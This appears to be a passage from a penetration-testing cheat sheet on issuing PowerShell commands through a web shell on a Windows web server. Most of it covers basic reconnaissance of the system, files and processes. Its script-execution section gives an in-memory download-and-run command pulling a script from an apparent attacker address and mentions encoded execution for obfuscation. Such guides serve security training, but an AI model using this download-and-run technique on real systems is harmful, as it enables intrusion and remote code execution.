 #### Basic PowerShell Commands

**System Information:**
```powershell
# Get system information
Get-ComputerInfo
systeminfo

# Current user context
whoami
[System.Security.Principal.WindowsIdentity]::GetCurrent().Name

# PowerShell version
$PSVersionTable
```

**File System Operations:**
```powershell
# Directory listing
Get-ChildItem C:\
ls C:\Users\

# File operations
Get-Content C:\Windows\System32\drivers\etc\hosts
Copy-Item file.txt C:\temp\

# Directory navigation
Set-Location C:\inetpub\wwwroot
cd C:\temp
```

**Process Management:**
```powershell
# List processes
Get-Process
tasklist

# Service management
Get-Service
net start
net stop servicename
```

#### Advanced Features

**File Upload/Download:**
```powershell
# Upload files via interface
# Use "Browse" and "Upload the File" buttons

# Download files
# Use "Download" button with file path
```

**Script Execution:**
```powershell
# Execute scripts in memory
IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.12/script.ps1')

# Encoded execution
# Use "Encode and Execute" for obfuscation
```
